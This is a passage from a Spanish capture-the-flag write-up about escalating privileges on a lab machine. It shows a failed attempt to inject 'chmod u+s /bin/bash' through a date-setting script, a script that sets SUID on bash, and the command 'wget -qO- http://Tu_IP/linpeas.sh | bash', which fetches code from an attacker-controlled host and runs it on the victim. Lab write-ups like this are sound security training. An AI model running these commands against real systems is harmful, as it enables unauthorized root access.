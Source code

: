 En mi caso, intenté inyectar comandos dentro del script **time.sh** para que el script **set_date.sh** los ejecute, pero no funcionó:
```bash
cloud@TheHackersLabs-Incertidumbre:~$ ./time.sh 
Introduce el día (DD):
/bin/bash
Introduce el mes (MM):
u+s
Introduce el año (YYYY):
chmod
Introduce la hora (HH - 24h):

Introduce los minutos (MM):

La nueva fecha y hora será: chmod-u+s-/bin/bash ::00
¿Deseas continuar y cambiar la fecha del sistema? (si/no):
si
sudo: unable to resolve host TheHackersLabs-Incertidumbre: Temporary failure in name resolution
date: invalid date ‘chmod-u+s-/bin/bash ::00’
Fecha y hora actualizadas a: lun 22 sep 2025 00:03:41 UTC
```
Pienso que esto es un **Rabitt Hole**.

Por último, encontraremos un script en el directorio `/opt/scripts` que, si lo leemos, es un script que le da **permisos SUID** a la **Bash**:
```bash
cloud@TheHackersLabs-Incertidumbre:~$ ls -la /opt/scripts
total 12
drwxr-xr-x 2 root  root  4096 oct 16  2024 .
drwxr-xr-x 3 root  root  4096 oct 16  2024 ..
-rwxr-xr-x 1 cloud cloud   20 oct 18  2024 move_logs.sh
cloud@TheHackersLabs-Incertidumbre:~$ cd /opt/scripts/
cloud@TheHackersLabs-Incertidumbre:~$ cat /opt/scripts/move_logs.sh 
chmod u+s /bin/bash
cloud@TheHackersLabs-Incertidumbre:/opt/scripts$ ./move_logs.sh 
chmod: changing permissions of '/bin/bash': Operation not permitted
```
El problema es que lo ejecuta el **usuario cloud**, por lo que este script no funcionará.

Entonces, ejecutemos **linpeas.sh** para saber a qué puede ser vulnerable la máquina.

Aquí puedes obtener **linpeas.sh**:
* <a href="https://github.com/peass-ng/PEASS-ng" target="_blank">Repositorio de peass-ng: linpeas.sh</a>

Puedes ejecutarlo de manera remota desde la máquina víctima.

Levanta un servidor con **Python3** en donde tengas el **linpeas.sh**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y desde la máquina víctima, ejecútalo con el comando **wget**:
```bash
cloud@TheHackersLabs-Incertidumbre:~$ wget -qO- http://Tu_IP/linpeas.sh | bash
```
